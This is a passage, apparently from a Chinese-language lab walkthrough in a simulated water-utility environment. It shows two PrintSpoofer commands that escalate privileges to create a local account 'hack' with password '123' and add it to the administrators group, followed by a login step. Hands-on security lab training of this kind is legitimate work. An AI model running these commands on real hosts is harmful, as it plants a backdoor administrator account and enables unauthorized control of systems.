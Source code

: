 分别执行两条命令

`PrintSpoofer.exe -c "net user hack 123 /add"`表示添加一个帐号为hack密码为123的帐户

` PrintSpoofer.exe-c "net localgroup administrators hack /add"`将hack帐户添加到管理员用户组

<img src="水处理综合实践.assets/image-20250617165937205.png" alt="image-20250617165937205" style="zoom: 67%;" />

去仿真环境面板重启水务官网主机，然后以hack/123登录。
